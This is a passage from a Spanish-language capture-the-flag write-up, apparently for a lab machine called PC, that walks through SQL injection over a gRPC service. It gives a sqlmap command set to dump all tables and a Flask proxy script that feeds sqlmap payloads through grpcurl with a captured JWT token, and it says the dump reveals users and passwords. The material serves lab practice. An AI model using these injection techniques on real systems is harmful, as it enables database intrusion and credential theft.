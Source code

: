 {"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYzRydGEiLCJleHAiOjE2ODQ5ODYwNDZ9.BVAx_9R6Cch8vwCUHknTLBm9l0wukqMrsy9TJcsGlJE"}],"data":[{"id":"738"}]}
```
Y el comando de sql map es:

```
sqlmap -r "$(pwd)/peticion" -level 5 --risk 3 --batch --dump
```

Eso automaticamente nos sacara todas las tablas, columnas, e informacion en ellas, ahi podremos ver un usuario y contraseñas

![](/assets/img/PC/sql1.png)

![](/assets/img/PC/sql2.png)


### 2. SQL injection con sqlmap simulando un proxy

(la idea de la solucion no es mia, **```Tysm to Cack for giving me the idea```**)

Basicamente es levantar un servidor web con python, el cual actua como proxy, y que travez de un parametro recibira el payload de sqlmap. Este actuaria entre sqlmap y el servidor gRPC, el codigo al que llegue es:

```python
import subprocess
import json
from flask import Flask, request

app = Flask(__name__)

@app.route('/payload')
def ctrl_payload():
    payload = request.args.get('p')
    payload = payload.replace('"', "'")
    payload = '{"id": "' + payload + '"}'
    print(payload)
    cmd = ['grpcurl', '-plaintext', '-d', payload, '-rpc-header', 'token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYzRydGEiLCJleHAiOjE2ODQ5ODYwNDZ9.BVAx_9R6Cch8vwCUHknTLBm9l0wukqMrsy9TJcsGlJE', '10.10.11.214:50051', 'SimpleApp.getInfo']
    output = subprocess.check_output(cmd)

if __name__ == '__main__':
    app.run(port=12345)
```

Como pueden ver, al parametro ID vulnerable a SQLi se le concatena el payload, donde ese payload es el de sqlmap, despues se le pasa ese payload a la variable cmd, y por ultimo ejecuta ese comando, que vendria siendo el grpcurl pero con el payload de sqlmap

Y esto daria el mismo resultado que la primera forma:
